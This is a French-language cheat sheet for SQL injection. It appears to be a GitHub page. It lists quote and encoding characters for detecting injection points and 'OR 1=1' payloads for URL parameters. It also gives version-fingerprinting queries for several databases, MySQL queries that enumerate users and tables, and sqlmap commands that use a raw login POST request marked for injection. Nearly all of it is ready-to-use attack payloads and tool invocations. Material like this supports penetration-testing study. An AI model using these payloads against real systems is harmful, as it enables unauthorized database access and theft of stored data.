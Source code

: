 # Cheat sheet SQLi

## Detection

```bash
'
%27
%%2727
%25%27
"
%22
#
%23
;
%3B
) 
```

| Dans une requête web    |
| ----------------------- |
| page.php?id=1 OR 1=1    |
| page.php?id=1 OR 1=1--  |
| page.php?id=1 OR 1=1#   |
| page.php?id=1' OR 1=1   |
| page.php?id=1' OR 1=1-- |
| page.php?id=1' OR 1=1#  |
| page.php?id=1" OR 1=1   |
| page.php?id=1 OR 1=1--  |
| page.php?id=1 OR 1=1#   |

## Trouver la version de la base de données

| TYPE           | PAYLOAD                        |
| -------------- | ------------------------------ |
| **Oracle**     | SELECT banner FROM v$version   |
|                | SELECT banner FROM v$version   |
|                | SELECT version FROM v$instance |
| **Microsoft**  | SELECT @@version               |
| **PostgreSQL** | SELECT version()               |
| **MySQL**      | SELECT @@version               |

## Extraire le contenu (MySQL)

#### basique :

SELECT  * FROM table WHERE variable = 'contenu' AND variable2 = 'contenu2'

#### lister les users :

SELECT user FROM mysql.user; — priv

#### lister les tables :

SELECT table_schema,table_name FROM information_schema.tables WHERE 

table_schema != ‘mysql’ AND table_schema != ‘information_schema’

## SQLMap

```bash
$ sqlmap --url=<URL> --data='username=a&password=b' --tables --batch
```

```bash
$ sqlmap -r sqlmap_request.txt -D hackazon -T tbl_roles --columns --random-agent
```

Contenu de `sqlmap_request.txt` :

```bash
POST /user/login HTTP/2
Host: vulnerable-website.com
Cookie: PHPSESSID=489cb79b641ea9f3beabfda54c993af6
Content-Length: 21
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7

username=a*&password=b
```

le contenu suivi d'un `*` est le contenu que nous voulons cibler pour l'attaque par injection SQL. 
